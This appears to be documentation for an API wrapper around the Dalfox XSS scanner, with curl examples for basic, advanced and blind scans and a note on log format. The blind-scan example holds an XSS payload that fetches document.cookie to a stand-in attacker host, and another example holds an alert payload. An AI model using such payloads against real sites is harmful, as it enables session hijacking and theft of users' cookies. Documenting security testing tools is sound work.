 ## Curl Examples

### Basic XSS Scan
```bash
curl -X POST http://127.0.0.1:8888/api/tools/dalfox \
  -H "Content-Type: application/json" \
  -d '{
    "url": "https://example.com/search?q=test"
  }'
```

### Advanced XSS Scan with Custom Configuration
```bash
curl -X POST http://127.0.0.1:8888/api/tools/dalfox \
  -H "Content-Type: application/json" \
  -d '{
    "url": "https://example.com/login",
    "blind": true,
    "method": "POST",
    "headers": "Authorization:Bearer eyJhbGciOiJIUzI1NiIsInR5cCI6IkpXVCJ9",
    "cookies": "sessionid=abc123def456;csrftoken=xyz789",
    "custom_payload": "<img src=x onerror=alert(1)>",
    "workers": 25,
    "timeout": 45,
    "additional_args": "--silence --delay 3"
  }'
```

### Blind XSS Scan with Custom Payload
```bash
curl -X POST http://127.0.0.1:8888/api/tools/dalfox \
  -H "Content-Type: application/json" \
  -d '{
    "url": "https://vulnerable-site.com/feedback",
    "blind": true,
    "mining_dom": false,
    "custom_payload": "<script>fetch(\"https://your-xss-hunter.com/\"+document.cookie)</script>",
    "method": "POST",
    "timeout": 60
  }'
```

## Logging

### Log File Location
Logs for the Dalfox tool are stored in: `/logs/tools.dalfox.dalfox.log`

### Log Format
The logging system uses the following format:
```
%(asctime)s - %(name)s - %(levelname)s - %(message)s
```
